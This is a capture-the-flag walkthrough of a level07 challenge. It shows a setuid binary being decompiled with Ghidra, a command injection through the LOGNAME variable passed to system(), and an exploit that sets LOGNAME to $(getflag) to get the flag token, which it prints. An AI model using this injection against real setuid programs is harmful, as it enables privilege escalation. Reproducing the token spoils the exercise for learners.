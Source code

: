 ## Step 1: Identifying the User

We begin by checking our current user informations:

```bash
$ id
uid=2007(level07) gid=2007(level07) groups=2007(level07),100(users)
```

This shows that we are operating as the user `level07`.

---
## Step 2: Searching for Files

```bash
$ ls -la
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07


$ file level07
level07: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x26457afa9b557139fa4fd3039236d1bf541611d0, not stripped

$ ./level07
level07
```
The level07 binary is a setuid ELF executable, meaning it executes with the flag07 user's permissions.

Let's transfer it to our local machine for reverse engineering:
```bash
$ scp -P 4242 level07@machine_ip:/home/level07/level07 .
```
---
## Step 3: Reverse Engineering the Binary with Ghidra

The C pseudo code generated by Ghidra is as follows:
```c
void main(void)

{
  char *pcVar1;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;
  
  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18,local_18,local_18);
  setresuid(local_14,local_14,local_14);
  local_1c = (char *)0x0;
  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);
  system(local_1c);
  return;
}
```
### Explanation:
The vulnerability lies in the fact that the program uses the system() function to execute a command containing user-controlled input (the `LOGNAME` environment variable) without proper sanitization. This allows an attacker to inject arbitrary commands by manipulating the `LOGNAME` environment variable.

---
## Step 4: Exploiting the Binary to Get a flag
To exploit this, we can change environement variable, to change `LOGNAME` by `$(getflag)`

```bash
export LOGNAME=\$\(getflag\)
```

```bash
$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
---

And there you have it, the token is `fiumuikeil55xe9cu4dood66h`.

